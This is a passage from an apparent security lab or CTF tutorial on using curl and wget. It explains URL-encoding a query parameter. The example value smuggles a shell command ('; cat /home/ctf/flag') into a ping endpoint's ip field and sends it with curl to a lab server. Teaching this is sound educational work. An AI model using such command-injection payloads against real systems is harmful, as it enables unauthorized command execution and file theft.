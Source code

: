 Why does the request fail?
Look at the request:
```
GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
```

The value of the query parameter `ip` contains some forbidden characters: `;`, `/` and space.
We need to send them encoded for URLs.
For this we use the `--data-urlencode` parameter for `curl`:
```
root@kali:~# curl -v -G --data-urlencode 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
[...]
```

Notice that now the the value of `ip` looks stranger: `ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag`:
- `%3B` is the URL encoding for `;`
- `%20` is the URL encoding for space
- `%2F` is the URL encoding for `/`

### `wget`

**Do not confuse it with `curl`!**
Its [man page](https://linux.die.net/man/1/wget) clearly states:
> Wget - The non-interactive network downloader. 

In other words, while `curl` is an HTTP client which, obviously, receives HTTP responses, `wget` is used for **downloading files** and nothing else.

Let's try it out:
```
root@kali:~# wget example.com
[...]
index.html        100%[===================>]   1,23K  --.-KB/s    in 0s

root@kali:~# cat index.html # Now we have the file locally.
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
[...]
```

## Summary

